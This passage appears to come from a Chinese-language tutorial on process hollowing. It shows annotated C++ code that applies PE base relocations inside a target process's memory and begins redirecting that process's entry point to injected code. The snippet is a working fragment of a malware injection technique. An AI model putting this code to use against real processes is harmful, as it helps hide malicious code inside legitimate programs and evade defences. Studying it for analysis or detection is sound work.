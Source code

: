 ```cpp=
            // Relocation Table 結構可以透過在 Optional Table 中的 DataDirectory 成員取得
            IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

            // 迴圈跑過所有 Block
            while (dwOffset < relocData.Size)
            {
                PBASE_RELOCATION_BLOCK pBlockheader = (PBASE_RELOCATION_BLOCK)&pBuffer[dwRelocAddr + dwOffset];
                dwOffset += sizeof(BASE_RELOCATION_BLOCK);
                DWORD dwEntryCount = CountRelocationEntries(pBlockheader->BlockSize);
                PBASE_RELOCATION_ENTRY pBlocks = (PBASE_RELOCATION_ENTRY)&pBuffer[dwRelocAddr + dwOffset];

                // 迴圈跑過所有 Entry
                for (DWORD y = 0; y <  dwEntryCount; y++)
                {
                    dwOffset += sizeof(BASE_RELOCATION_ENTRY);

                    // 當 Type 為 0 時代表它只是用來做 Padding 對齊用的，所以不用改
                    if (pBlocks[y].Type == 0)
                        continue;

                    // 把每個 Entry 的 Offset 加上所在的 Block 的 PageAddress，
                    // 將算出來的位址裡的值加上原本目標 Process 和檔案的 Image Base 的差
                    DWORD dwFieldAddress = 
                        pBlockheader->PageAddress + pBlocks[y].Offset;
                    DWORD dwBuffer = 0;
                    ReadProcessMemory
                    (
                        pProcessInfo->hProcess, 
                        (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                        &dwBuffer,
                        sizeof(DWORD),
                        0
                    );
                    dwBuffer += dwDelta;
                    BOOL bSuccess = WriteProcessMemory
                    (
                        pProcessInfo->hProcess,
                        (PVOID)((DWORD)pPEB->ImageBaseAddress + dwFieldAddress),
                        &dwBuffer,
                        sizeof(DWORD),
                        0
                    );
                    if (!bSuccess)
                    {
                        printf("Error writing memory\r\n");
                        continue;
                    }
                }
            }
            break;
        }

    //  8. 取出目標 Process 的 Context，把暫存器 EAX 改成我們注入的程式的 Entry Point
    DWORD dwEntrypoint = (DWORD)pPEB->ImageBaseAddress + pSourceHeaders->OptionalHeader.AddressOfEntryPoint;
    LPCONTEXT pContext = new CONTEXT();
    pContext->ContextFlags = CONTEXT_INTEGER;
    if (!GetThreadContext(pProcessInfo->hThread, pContext))
    {
        printf("Error getting context\r\n");
```